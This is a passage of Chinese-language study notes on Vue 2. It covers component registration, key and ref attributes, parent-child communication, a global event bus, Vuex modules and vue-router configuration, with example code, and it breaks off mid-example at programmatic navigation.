							2.`data必须写成函数`，为什么？ ———— 避免组件被复用时，数据存在引用关系。
					备注：`使用template可以配置组件结构`。
二、如何注册组件？
						1.`局部注册`：靠new Vue的时候传入components选项
						2.`全局注册`：靠Vue.component('组件名',组件)

三、编写组件标签：
					<school></school>

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>基本使用</title>
    </head>
    <body> 
        <!-- 准备好一个容器-->
        <div id="root">
            <hello></hello>
            <hr>
            <h1>{{msg}}</h1>
            <hr>
            <!-- 第三步：编写组件标签 -->
            <school></school>
            <hr>
            <!-- 第三步：编写组件标签 -->
            <student></student>
        </div>

        <div id="root2">
            <hello></hello>
        </div>
    </body>
    <script type="text/javascript" src="../vue.js"></script>
    <script type="text/javascript">
        Vue.config.productionTip = false

        //第一步：创建school组件
        const school = Vue.extend({
            template:`
<div class="demo">
<h2>学校名称：{{schoolName}}</h2>
<h2>学校地址：{{address}}</h2>
<button @click="showName">点我提示学校名</button>	
        </div>
`,
            // el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
            // data一定要写成函数返回值的形式，写成函数返回值的形式每次调用都会返回一个新的对象，
            // 当在别处修改对象的时候，不会连带着连锁反应修改掉所有的对象
            data(){
                return {
                    schoolName:'尚硅谷',
                    address:'北京昌平'
                }
            },
            methods: {
                showName(){
                    alert(this.schoolName)
                }
            },
        })

        //第一步：创建student组件
        const student = Vue.extend({
            template:`
<div>
<h2>学生姓名：{{studentName}}</h2>
<h2>学生年龄：{{age}}</h2>
        </div>
`,
            data(){
                return {
                    studentName:'张三',
                    age:18
                }
            }
        })

        //第一步：创建hello组件
        const hello = Vue.extend({
            template:`
<div>	
<h2>你好啊！{{name}}</h2>
        </div>
`,
            data(){
                return {
                    name:'Tom'
                }
            }
        })

        //第二步：全局注册组件
        Vue.component('hello',hello)

        //创建vm
        new Vue({
            el:'#root',
            data:{
                msg:'你好啊！'
            },
            //第二步：注册组件（局部注册）
            components:{
                school,
                student
            }
        })

        new Vue({
            el:'#root2',
        })
    </script>
</html>
```


#### 注意点

`const school = Vue.extend(options) 可简写为：const school = options`

关于组件名:

​        一个单词组成：

​           第一种写法(首字母小写)：school

​           第二种写法(首字母大写)：`School(个人青睐)`

​        多个单词组成：

​           第一种写法(kebab-case命名)：`my-school`

​           第二种写法(CamelCase命名)：`MySchool(个人青睐) `(需要Vue脚手架支持)

​        备注：

​          (1).组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。

​          (2).可以使用name配置项指定组件在开发者工具中呈现的名字。

关于组件标签:

​        第一种写法：<school></school>

​        第二种写法：<school/>

​        备注：`不使用脚手架时，<school/>会导致后续组件不能渲染。`


#### 组件嵌套

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>组件的嵌套</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		//定义student组件
		const student = Vue.extend({
			name:'student',
			template:`
				<div>
					<h2>学生姓名：{{name}}</h2>	
					<h2>学生年龄：{{age}}</h2>	
				</div>
			`,
			data(){
				return {
					name:'尚硅谷',
					age:18
				}
			}
		})
		
		//定义school组件
		const school = Vue.extend({
			name:'school',
			template:`
				<div>
					<h2>学校名称：{{name}}</h2>	
					<h2>学校地址：{{address}}</h2>	
					<student></student>
				</div>
			`,
			data(){
				return {
					name:'尚硅谷',
					address:'北京'
				}
			},
			//注册组件（局部）
			components:{
				student
			}
		})

		//定义hello组件
		const hello = Vue.extend({
			template:`<h1>{{msg}}</h1>`,
			data(){
				return {
					msg:'欢迎来到尚硅谷学习！'
				}
			}
		})
		
		//定义app组件
		const app = Vue.extend({
			template:`
				<div>	
					<hello></hello>
					<school></school>
				</div>
			`,
			components:{
				school,
				hello
			}
		})

		//创建vm
		new Vue({
			template:'<app></app>',
			el:'#root',
			//注册组件（局部）
			components:{app}
		})
	</script>
</html>
```


#### 理解VueComponent(vc)

关于VueComponent：

1. school组件本质是一个名为`VueComponent的构造函数`，且不是程序员定义的，是Vue.extend生成的。

2. 我们只需要写<school/>或<school></school>，`Vue解析时会帮我们创建school组件的实例对象`，

​       即`Vue帮我们执行的：new VueComponent(options)`。

3. 特别注意：`每次调用Vue.extend，返回的都是一个全新的VueComponent！！！！`

4. 关于this指向：

​        (1).组件配置中：

​           data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。

​        (2).new Vue(options)配置中：

​           data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

5. `VueComponent的实例对象，以后简称vc`（也可称之为：组件实例对象）。

​       `Vue的实例对象，以后简称vm`。


#### Vue与VueComponent的原型关系

`VueComponent.prototype.__proto__ === Vue.prototype`


### 单文件组件

```html
<template>
	<div class="demo">
		<h2>学校名称：{{name}}</h2>
		<h2>学校地址：{{address}}</h2>
		<button @click="showName">点我提示学校名</button>	
	</div>
</template>

<script>
	 export default {
		name:'School',
		data(){
			return {
				name:'尚硅谷',
				address:'北京昌平'
			}
		},
		methods: {
			showName(){
				alert(this.name)
			}
		},
	}
</script>

<style>
	.demo{
		background-color: orange;
	}
</style>
```


## 标签属性


### key

react、vue中的key有什么作用？（key的内部原理）

1. 虚拟DOM中key的作用：

​          key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 

​          随后Vue进行`【新虚拟DOM】与【旧虚拟DOM】的差异比较`，比较规则如下：        

2. 对比规则：

​         (1).旧虚拟DOM中找到了与新虚拟DOM相同的key：

​            ①.`若虚拟DOM中内容没变, 直接使用之前的真实DOM`！

​            ②.`若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM`。

​         (2).旧虚拟DOM中未找到与新虚拟DOM相同的key

​            创建新的真实DOM，随后渲染到到页面。            

3. `用index作为key`可能会引发的问题：

   \1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:

​               会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。

​           \2. 如果结构中还包含输入类的DOM：

​               会产生错误DOM更新 ==> 界面有问题。

4. 开发中如何选择key?:

​           1.`最好使用每条数据的唯一标识作为key`, 比如`id、手机号、身份证号、学号等唯一值`。

​           2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，

​            使用index作为key是没有问题的。

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <!-- 遍历数组 -->
        <h2>人员列表（遍历数组）</h2>
        <button @click.once="add">添加一个老刘</button>
        <ul>
            <li v-for="(p,index) of persons" :key="index">
                {{p.name}}-{{p.age}}
                <input type="text">
            </li>
        </ul>
    </div>
    <script type="text/javascript" src="../js/vue.js"></script>
    <script type="text/javascript">
        Vue.config.productionTip = false

        new Vue({
            el:'#root',
            data:{
                persons:[
                    {id:'001',name:'张三',age:18},
                    {id:'002',name:'李四',age:19},
                    {id:'003',name:'王五',age:20}
                ]
            },
            methods: {
                add(){
                    const p = {id:'004',name:'老刘',age:40}
                    this.persons.unshift(p)
                }
            },
        })
    </script>
```


### ref

  1、被用来给元素或组件添加标识，用来快速获取元素或组件

  2、`应用在HTML标签上是用来获取真实的DOM，应用在组件上用来获取实例对象VueComponent`

  3、使用方式：

​    <h1 ref="xxx"></h1> 或者 <School ref="xxx"></School>

  4、`获取组件的真实DOM可以给组件加id这个id值会自动加到组件的根元素标签上，很多东西都是可以直接在使用组件时，给组件加从而自动加载到组件根元素标签上`

获取：

​    `this.$refs.xxx`

```html
<template>
	<div>
		
		<School ref="school"></School>
		<School id="school"></School>
		<button @click="btn">获取ref和id</button>
	</div>
</template>

<script>
	//引入组件
	import School from './components/School'

	export default {
		name:'App',
		components:{
			School,
		},
		methods: {
			btn(){
				console.log(this.$refs.img);//获取原生页面标签的真实DOM
				console.log(this.$refs.school);//VC
				console.log(document.getElementById('school'));//获取组件的真实DOM
			}
		},
	}
</script>

```


### scoped

作用：`让样式只在局部组件中生效，防止冲突`

用法：<style scoped>

原理：将<style scoped>中选中的标签添加一个`唯一的随机的`标签属性，然后再通过标签属性选择器来操作样式




### lang

作用：`告诉Vue,style标签中使用什么来写样式,css/less/sass`

  `不写默认就是使用css,`

  当设置成less或者sass的时候会提示安装插件

  这里使用less作为示范

  当编译执行的时候会报错

  ERROR  Failed to compile with 1 error                                                                                 上午9:11:09

  Failed to resolve loader: less-loader

  You may need to install it.

  需要下载less-loader包，有可能会报错，这是因为webpack版本和less-loader包版本对应不上

  去nodemodules中查看webpack/package.json包查看webpack包的版本，然后

  命令行中输入npm view webpack versions 和 npm view less-loader versions分别查看对应的所有版本

  下载指定版本npm install less-loader@6

  在我的电脑上7和8和9的最新版本都不行6的最新版本才行

  不指定默认就是最新版本


### slot

将内容传递给哪一个具名组件，在包裹根节点上添加slot标签属性，属性值对应插槽名称


### scope废弃

被 2.5.0 新增的slot-scope取代。推荐 2.6.0 新增的 `v-slot`

用于表示一个作为带作用域的插槽的 `<template>` 元素，它在 2.5.0+ 中被 [`slot-scope`](https://cn.vuejs.org/v2/api/#slot-scope) 替代。

除了 `scope` 只可以用于 `<template>` 元素，其它和 [`slot-scope`](https://cn.vuejs.org/v2/api/#slot-scope) 都相同。

```html
// 后面可以对象解构也可以声明一个对象名
<template scope="{games}"></template>
```


### slot-scope 废弃

推荐 2.6.0 新增的 v-slot

```html
<template slot-scope="{games}"></template>
```


## 组件通信


### 父传子

思路：在父组件中通过v-bind给子组件标签动态传递数据，子组件中通过props接收数据

子传父中用到了父传子，详情看下方


### 子传父

思路：父组件给子组件传递一个`函数`或者`@自定义事件`或者`$ref绑定的自定义事件`，子组件调用这个`函数`或者`@自定义事件`或者`$ref绑定的自定义事件`，将数据作为参数传递给父组件

`App.vue`

```html
<template>
  <div id="app">
    <h2>父组件</h2>
    <Son :fn="clg"/>
    <Son @fn1="clg"/>
    <Son ref="r"/>
  </div>
</template>

<script>
import Son from './components/Son.vue'

export default {
  name: 'App',
  components: {
    Son
  },
  methods:{
    clg(v){
      console.log(v)
    }
  },
  mounted(){
      this.$refs.r.on('fn2',this.clg)
  }
}
</script>

<style>
</style>

```

`Son.vue`

```html
<template>
  <div>子组件</div>
</template>

<script>
export default {
  name: 'Son',
  data(){
    return {
      msg: '你好'
    }
  },
  props:['fn'],
  mounted(){
    this.fn(this.msg)
    this.$emit('fn1',this.msg)
    this.$emit('fn2',this.msg)
  }
}
</script>

<style scoped>
</style>
```


### 兄弟之间通信

思路：发送数据的兄弟组件调用他们兄弟共同的父亲所提供的方法，将数据传递给父亲，然后父亲再将数据传递给接收数据的兄弟组件


## 全局事件总线

思路，vm身上有$on，我们只需要让所有的vc都可以随时访问到vm即可，根据原型对应关系Vue.prototype = VueComponent . __ proto __ . propotype，给Vue.prototype添加一个属性，属性值是vm，就可以实现，前辈的智慧。

`main.js`

````javascript
import Vue from 'vue'
import App from './App'
// 引入插件
Vue.config.productionTipc = false
// Vue.prototype = VueComponent.__proto__.propotype
// 给Vue的原型上添加东西，到时候所有的VueComponent都是通过Vue 去调用extend方法 return 一个new VueComponent()创建出来的
// 所以所有的VueComponent可以拿到Vue原型上的所有东西
new Vue({
	render: h => h(App),
	beforeCreate(){
		Vue.prototype.$bus = this
	}
}).$mount('#app')
````

`App.vue`

````html
<template>
  <div class="app">
    <h1>{{msg}}</h1>
		<Student></Student>
		<School></School>
  </div>
</template>

<script>
//引入组件
import School from "./components/School";
import Student from "./components/Student";

export default {
  name: "App",
  components: {
    School,
    Student,
  },
  data() {
    return {
      msg: "你好啊"
    };
  }
};
</script>
<style lang="less">
.app {
  background-color: gray;
}
</style>

````

`School.vue子组件`

````html
<template>
  <div class="School">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
    <button @click="sendSchoolName">点我发送学校名称</button>
  </div>
</template>
<script>
export default {
  name: "School",
  data() {
    return {
      name: "尚硅谷",
      address: "北京"
    };
  },
  methods: {
    sendSchoolName(){
      this.$bus.$emit('getSchoolName',this.name)
    }
  },
};
</script>
<style scoped lang="less">
.School {
  background-color: skyblue;
}
</style>

````

`Student.vue子组件`

```html
<template>
  <div class="Student">
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
  </div>
</template>
<script>
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男"
    };
  },
  methods:{
    getSchoolName(value){
      console.log(value);
    }
  },
  mounted() {
    this.$bus.$on('getSchoolName',value => {
      console.log(this.name + '在' + value + '读书');
    })
  },
  beforeDestroy() {
    this.$bus.$off('getSchoolName')
  },
};
</script>
<style scoped lang="less">
.Student {
  background-color: pink;
}
</style>
```


## 消息订阅与发布

借助消息订阅与发布第三方库实现

先下载第三方包 `npm install pubsub-js --save`

`消息订阅者`

```html
<template>
  <div class="Student">
    <h2>学生姓名：{{name}}</h2>
    <h2>学生性别：{{sex}}</h2>
  </div>
</template>
<script>
import pubsub from 'pubsub-js'
export default {
  name: "Student",
  data() {
    return {
      name: "张三",
      sex: "男"
    };
  },
  methods:{
    getSchoolName(value){
      console.log(value);
    }
  },
  mounted() {
    // this.$bus.$on('getSchoolName',value => {
    //   console.log(this.name + '在' + value + '读书');
    // })
    this.pubsubGSN = pubsub.subscribe('getSchoolName',(msgName,data) => {
      // 一定要使用箭头函数的形式，不然this指向就是undefined,或者将回调函数写在methodes中
      console.log('感谢'+ msgName + '发布者的发布');
      console.log(this.name + '在' + data + '读书');
    })
  },
  beforeDestroy() {
    // this.$bus.$off('getSchoolName')
    pubsub.unsubsctibe(this.pubsubGSN)
  },
};
</script>
<style scoped lang="less">
.Student {
  background-color: pink;
}
</style>
```

`消息的发布者`

```html
<template>
  <div class="School">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
    <button @click="sendSchoolName">点我发送学校名称</button>
  </div>
</template>
<script>
import pubsub from 'pubsub-js'
export default {
  name: "School",
  data() {
    return {
      name: "尚硅谷",
      address: "北京"
    };
  },
  methods: {
    sendSchoolName(){
      // this.$bus.$emit('getSchoolName',this.name)
      pubsub.publish('getSchoolName',this.name)
    }
  },
};
</script>
<style scoped lang="less">
.School {
  background-color: skyblue;
}
</style>
```


## Vuex3.0

### `Vuex原理图

`

### Vuex的基本使用

`总结介绍`

1. 当注册了`store`之后，vm身上就会有一个`$store属性`，属性值是一个对象如下所示



2. `actions`里面的方法用来处理业务逻辑等，方法会默认接收到一个参数`context`对象结构如下。不要在actions中通过`this.state.xxx = xxx`来修改数据，虽然可以实现，但是不在mutations中修改vue生产工具调用监听不到修改，无法调试



3. `mutations`中的方法一般直接进行数据的更改，方法会默认接收一个`参数state,`对象结构如下
4. `getters`类似于组件的计算属性，方法名就是计算属性的名称，默认接收`参数state`，与上方一样。通过`return`来设置计算属性的值


`安装vuex`

```
npm install vuex --save
```

`main.js`

````js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App.vue'
// 引入store
import store from './store'
//关闭Vue的生产提示
Vue.config.productionTip = false

// 引入vuex之后就Vm中就有一个store属性了
//创建vm
new Vue({
	el:'#app',
	render: h => h(App),
	store,
})
````

`store.js`

```js
import Vuex from "vuex";
import Vue from "vue";

// --------- Vuex原理的三剑客
const actions = {
  incrementOdd(context, value) {
    if (context.state.sum % 2) {
      context.commit("INCREMENT",value)
    }
  },
  incrementWait(context, value) {
    setTimeout(() => {
      context.commit("INCREMENT",value)      
    }, 500);
  }
};
const mutations = {
  INCREMENT(state,value){
    state.sum += value
  },
  DECREMENT(state,value){
    state.sum -= value
  }
};
// 类似于组件中的data，数据源
const state = {
  sum:1
};
// 类似于组件的计算属性，可在多个组件中复用的计算属性
const getters = {
  bigSum(state){
    return state.sum * 10
  }
}
// ---------

// 在这里声明使用插件，而不在main.js中引用
/* 因为在main.js中引用，模块化的代码执行顺序是先执行import外部模块代码，在执行自己模块的代码，在main.js中引用该store/index.js模块时，
没有先声明Vuex,那么在执行import store from './store' 时解析到调用了new Vuex.Store,但是main.js中的使用插件Vue.use(Vuex)代码执行在import后面*/
Vue.use(Vuex);

export default new Vuex.Store({
  actions,
  mutations,
  state,
  getters
});
```

`Count.vue`

```html
<template>
  <div>
    <h1>当前求和为：{{$store.state.sum}}</h1>
    <h2>当前求和结果放大十倍是: {{$store.getters.bigSum}}</h2>
    <select v-model.number="n">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name: "Count",
  data() {
    return {
      n: 1 //用户选择的数字
    };
  },
  methods: {
    increment() {
	  this.$store.commit("INCREMENT",this.n)
    },
    decrement() {
      this.$store.commit("DECREMENT",this.n)
    },
    incrementOdd() {
      this.$store.dispatch("incrementOdd", this.n);
    },
    incrementWait() {
      this.$store.dispatch("incrementWait", this.n);
    }
  }
};
</script>

<style lang="css">
button {
  margin-left: 5px;
}
</style>

```


### Vuex辅助函数


#### mapState与mapGetters

当我们需要读取store中state的数据，我们需要多次书写`this.$store.state`，代码冗余，这时可以使用mapState来快速获取state中的数据

mapGetters同理

````js
import { mapState, mapGetters } from 'vuex'
export default {

computed:{
    // ------自己写计算属性
    // sum(){
    //   return this.$store.state.sum
    // },
    // bigSum(){
    //   return this.$store.getters.bigSum
    // }
    // ------
    // 生成计算属性对象写法
    // ...mapState({sum:'sum'}),
    // 数组写法
    ...mapState(['sum']),
    // ...mapGetters({bigSum:'bigSum'})
    ...mapGetters(['bigSum'])
  },
    
}
````


#### mapMutations与mapActions

```html
<template>
	<button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
</template>
```

```js
export default {
    methods: {
        /* increment() {
			this.$store.commit("INCREMENT",this.n)
    },
    decrement() {
      this.$store.commit("DECREMENT",this.n)
    }, */

        // 会自动接收页面中{{increment}}接收的参数，如果页面中不传，那么会接收到event事件参数
        ...mapMutations({increment:'INCREMENT',decrement:'DECREMENT'}),

        /* incrementOdd() {
      this.$store.dispatch("incrementOdd", this.n);
    },
    incrementWait() {
      this.$store.dispatch("incrementWait", this.n);
    } */
        // ...mapActions({incrementOdd:'incrementOdd',incrementWait:'incrementWait'})
        // 如果函数名和后面的通信参数相同可以使用数组
        ...mapActions(['incrementOdd','incrementWait'])
    }
}
```


### namespace\modules

`store/index.js`

````js
//该文件用于创建Vuex中最为核心的store
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
import countOptions from './count'
import personOptions from './person'
//应用Vuex插件
Vue.use(Vuex)

//创建并暴露store
export default new Vuex.Store({
	modules:{
		countOptions,
		personOptions
	}
})
````

`store/count.js`

```js
//求和相关的配置
export default {
	namespaced:true,
    /* namespaced:true的作用:使用模块中的mutations、getters、actions时候，要加上模块名，例如使用commint执行mutations时
    格式：模块名/模块中的mutations
    xxx/setUserInfo
    this.$store.commit(“userInfo/setUserInfo”,userInfo) 
    ...mapState({
    number1: state=>state.home.number1,
}),
...mapGetters({
    total:'home/total'
})
...mapMutations({
    changeNumber1: 'home/changeNumber1',
    changeNumber2: 'home/changeNumber2'
})
...mapActions({
   changeNumber1Action: 'home/changeNumber1Action',
   changeNumber2Action: 'home/changeNumber2Action'
})*/
	actions:{
		jiaOdd(context,value){
			console.log('actions中的jiaOdd被调用了')
			if(context.state.sum % 2){
				context.commit('JIA',value)
			}
		},
		jiaWait(context,value){
			console.log('actions中的jiaWait被调用了')
			setTimeout(()=>{
				context.commit('JIA',value)
			},500)
		}
	},
	mutations:{
		JIA(state,value){
			console.log('mutations中的JIA被调用了')
			state.sum += value
		},
		JIAN(state,value){
			console.log('mutations中的JIAN被调用了')
			state.sum -= value
		},
	},
	state:{
		sum:0, //当前的和
		school:'尚硅谷',
		subject:'前端',
	},
	getters:{
		bigSum(state){
			return state.sum*10
		}
	},
}
```

``person.js`

````js
//人员管理相关的配置
import axios from 'axios'
import { nanoid } from 'nanoid'
export default {
	namespaced:true,
	actions:{
		addPersonWang(context,value){
			if(value.name.indexOf('王') === 0){
				context.commit('ADD_PERSON',value)
			}else{
				alert('添加的人必须姓王！')
			}
		},
		addPersonServer(context){
			axios.get('https://api.uixsj.cn/hitokoto/get?type=social').then(
				response => {
					context.commit('ADD_PERSON',{id:nanoid(),name:response.data})
				},
				error => {
					alert(error.message)
				}
			)
		}
	},
	mutations:{
		ADD_PERSON(state,value){
			console.log('mutations中的ADD_PERSON被调用了')
			state.personList.unshift(value)
		}
	},
	state:{
		personList:[
			{id:'001',name:'张三'}
		]
	},
	getters:{
		firstPersonName(state){
			return state.personList[0].name
		}
	},
}
````


### vuex的目录结构

```
├── index.html
├── main.js
├── api
│   └── ... # 抽取出API请求
├── components
│   ├── App.vue
│   └── ...
└── store
    ├── index.js          # 我们组装模块并导出 store 的地方
    ├── actions.js        # 根级别的 action
    ├── mutations.js      # 根级别的 mutation
    └── modules
        ├── cart.js       # 购物车模块
        └── products.js   # 产品模块
```


## vue-router


### 路由简介

vue-router用来管理一组路由的配置，也就是`路由器`

路由实际上应该是一组key-value表明对应关系，key就是`路径`value在`前端是组件`，后端是`回调函数`


### 路由的基本使用

1. 安装vue-router `npm install vue-router --save`
2. 在main.js中注册使用插件

```js
import VueRouter from 'vue-router'
Vue.use(VueRouter)
```

3. 编写路由器router.js

```js
import VueRouter from 'vue-router'
import Home from '../components/Home'
import About from '../components/About'

// 创建一个路由器
export default new VueRouter({
  routes:[
    {
      path:'/about',
      component: About
    },
    {
      path:'/home',
      component: Home
    },
  ]
})
```

4. 将路由器挂载到vm身上

```js
// 引入路由器
import router from './router'
new Vue({
  render: h => h(App),
  router
}).$mount('#app')
```

5. `App.vue`

router-link标签:

​	解析成a标签，点击实现路由跳转

​	to 配置路径

​	active-class 路由选择时添加类名

router-view标签

​	跳转路由对应组件展示的位置

```html
<template>
  <div>
    <div class="row">
      <div class="col-xs-offset-2 col-xs-8">
        <div class="page-header"><h2>Vue Router Demo</h2></div>
      </div>
    </div>
    <div class="row">
      <div class="col-xs-2 col-xs-offset-2">
        <div class="list-group">
          <!-- <a class="list-group-item" href="./about.html">About</a>
          <a class="list-group-item active" href="./home.html">Home</a> -->
          <!-- router-link会被解析成a标签
            active-class指定路由被选择时，指定的类名
           -->
          <router-link to="/about" active-class="active" class="list-group-item">About</router-link>
          <router-link to="/home" active-class="active" class="list-group-item">Home</router-link>
        </div>
      </div>
      <div class="col-xs-6">
        <div class="panel">
          <div class="panel-body">
            <!-- 指定组件的呈现位置 -->
            <router-view></router-view>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>
```


### $route与$router

1. 组件分类

路由组件放在pages/下

一般组件放在components/下

2. 路由组件对象的属性

每个路由组件vc上都会有$route 和 $router

同一个项目里面一般只有一个router文件，所以每个路由组件上面的$router属性是相同的对象"==="

但是$route都不一样，属性对应的值对象不相同

`对象内容具体如下`



3. 路由组件没有展示的时候被怎么处理了

路由组件没有展示的时候被销毁了,展示的时候再挂载

### 路由重定向

```js
export default new VueRouter({
    routes: [{
        path: "/",
        redirect: "/home"
    },
    {
        path: "/home",
        component: Home,
    },
    {
        path: "/search",
        component: Search,
    },]
})
```


### 嵌套路由

````js
import VueRouter from 'vue-router'
import Home from '../pages/Home'
import About from '../pages/About'
import Message from '../pages/Message'
import News from '../pages/News'
// 创建一个路由器
export default new VueRouter({
  routes:[
    {
      path:'/about',
      component: About,
      children:[
        {
          // vue-router会自动匹配上/
          path: 'message',
          component: Message,
        },
        {
          path: 'news',
          component: News,
        }
      ]
    },
    {
      path:'/home',
      component: Home,
      children:[
        {
          // vue-router会自动匹配上/
          path: 'message',
          component: Message,
        },
        {
          path: 'news',
          component: News,
        }
      ]
    },
  ]
})
````

`一级路由App.vue`

````html
<template>
  <div>
    <div class="row">
      <div class="col-xs-offset-2 col-xs-8">
        <Hand/>
      </div>
    </div>
    <div class="row">
      <div class="col-xs-2 col-xs-offset-2">
        <div class="list-group">
          <!-- <a class="list-group-item" href="./about.html">About</a>
          <a class="list-group-item active" href="./home.html">Home</a> -->
          <!-- router-link会被解析成a标签
            active-class指定路由被选择时，指定的类名
           -->
          <router-link to="/about" active-class="active" class="list-group-item">About</router-link>
          <router-link to="/home" active-class="active" class="list-group-item">Home</router-link>
        </div>
      </div>
      <div class="col-xs-6">
        <div class="panel">
          <div class="panel-body">
            <!-- 指定组件的呈现位置 -->
            <router-view></router-view>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>
<script>
export default {
  name: "App"
};
</script>
````

`二级路由Home.vue`

```html
<template>
  <div>
    <h2>我是Home的内容</h2>
    <ul class="nav nav-tabs">
      <li>
        <!-- <a class="list-group-item active" href="./home-news.html">News</a> -->
        <router-link to="/home/news" class="list-group-item" class-active="active">News</router-link>
      </li>
      <li>
        <!-- <a class="list-group-item" href="./home-message.html">Message</a> -->
        <router-link to="/home/message" class="list-group-item" class-active="active">Message</router-link>
      </li>
    </ul>
    <router-view></router-view>
  </div>
</template>

<script>
export default {
  name: "Home"
};
</script>
```


### 给路由组件传递参数

1. 传递params参数需要占位符
2. 

`传递参数Message.vue`

````html
<template>
    <div>
      <ul>
        <li v-for="message in messageList" :key="message.id">
          <!-- 路由传参query，字符串写法 -->
          <!-- <router-link :to="`/home/message/detail?id=${message.id}&title=${message.title}`">{{message.title}}</router-link> -->
          <!-- 路由传参query，对象写法 -->
          <router-link :to="{
            path:'/home/message/detail',
            query: {
              id:message.id,
              title:message.title
            }
          }">
            {{message.title}}
          </router-link>
            <!-- 路由parse传参的字符串写法 -->
            <!-- <router-link :to="`/home/message/detail/${message.id}/${message.title}`">{{message.title}}</router-link> -->
            <!-- 路由传参的对象写法 -->
            <!-- !!!!!!!!!!!!!!!!!!有一个坑，使用对象形式传params参数，必须使用name，而不能使用path -->
            <router-link :to="{
              name:'detailName',
              params:{
                id:message.id,
                title:message.title
              }
            }">
                {{message.title}}
            </router-link>
        </li>
      </ul>
      <router-view></router-view>
    </div>
</template>

<script>
export default {
  data() {
    return {
      messageList:[
        {id:'001',title:'message001'},
        {id:'002',title:'message002'},
        {id:'003',title:'message003'}
      ]
    }
  },
}
</script>
````

### 路由组件接收参数

`方式1通过vc的route属性获取`

`Detail.vue`

````html
<template>
  <div>
    {{$route.query.id}}-{{$route.query.title}}
  </div>
</template>
````

`方式二配置路由器通过props传递`

`在路由组件中正常通过props接收`

`router.js`

```js
import VueRouter from 'vue-router'
import Home from '../pages/Home'
import About from '../pages/About'
import Message from '../pages/Message'
import News from '../pages/News'
import Detail from '../pages/Detail'
// 创建一个路由器
export default new VueRouter({
  routes:[
    {
      path:'/home',
      component: Home,
      children:[
        {
          // vue-router会自动匹配上/
          path: 'message',
          component: Message,
          children:[
            {
              // 简化路由跳转，相当于路径的简写形式
              name: 'detailName',
              path: 'detail',
              // 传递params参数需要占位符,加上一个?表示可传可不传
              // path: 'detail/:id/:title?',
              /*
              	params参数可传可不传时，要传递一个空的字符串怎么传
              	this.$router.push({name:detailName,params:{id: "1",title: "" || undefined},query:{}})
              */ 
              component: Detail,
              // props的第一种写法，值为对象，将对象中的所有key-value以props形式传递给Detail组件
              // props:{a:1,b:2}
              // props的第二种写法，值为布尔值，如果为true，就会把路由组件中收到的所有"""""""params"""""""参数通过props传递给路由组件
              // props:true
              // props的第三种写法，值为回调函数, vue-router调用这个函数时，传递组件上的$route参数返回值是一个对象，传递给组件的props
              props($route){
                return {id:$route.query.id,title:$route.query.title}
                // return {id:$route.params.id,title:$route.params.title}
              }
            }
          ]
        },
        {
          path: 'news',
          component: News,
        }
      ]
    },
  ]
})
```


### router-link 的 replace属性

`router-link默认是push模式`


`给router-link 添加replace属性`

````html
<router-link 
             to="/home/news" 
             replace 
             class="list-group-item" 
             class-active="active">
    News
</router-link>
````


### 命名路由

`作用:`简化编码，给路径起别名

`使用前提:`router-link中to使用的是对象的写法

```js
import VueRouter from 'vue-router'
import Home from '../pages/Home'
import About from '../pages/About'
import Message from '../pages/Message'
import News from '../pages/News'
import Detail from '../pages/Detail'
// 创建一个路由器
export default new VueRouter({
  routes:[
    {
      path:'/about',
      component: About,
      children:[
        {
          // vue-router会自动匹配上/
          path: 'message',
          component: Message,
        },
        {
          path: 'news',
          component: News,
        }
      ]
    },
    {
      path:'/home',
      component: Home,
      children:[
        {
          // vue-router会自动匹配上/
          path: 'message',
          component: Message,
          children:[
            {
              // 简化路由跳转，相当于路径的简写形式
              name: 'detailName',
              path: 'detail',
              component: Detail,
            }
          ]
        },
        {
          path: 'news',
          component: News,
        }
      ]
    },
  ]
})
```

```html
<template>
    <div>
      <ul>
        <li v-for="message in messageList" :key="message.id">
          <!-- 路由传参query，字符串写法 -->
          <!-- <router-link :to="`/home/message/detail?id=${message.id}&title=${message.title}`">{{message.title}}</router-link> -->
          <!-- 路由传参query，对象写法 -->
          <router-link :to="{
            //path:'/home/message/detail',
            name: 'detailName',
            query: {
              id:message.id,
              title:message.title
            }
          }">
            {{message.title}}
          </router-link>
        </li>
      </ul>
      <router-view></router-view>
    </div>
</template>

<script>
export default {
  data() {
    return {
      messageList:[
        {id:'001',title:'message001'},
        {id:'002',title:'message002'},
        {id:'003',title:'message003'}
      ]
    }
  },
}
</script>
```


### 编程式路由导航

```html
<template>
    <div>
      <ul>
        <li v-for="message in messageList" :key="message.id">
          <router-link :to="`/home/message/detail?id=${message.id}&title=${message.title}`">{{message.title}}</router-link>
          <button @click="pushBtn(message)">push查看</button>
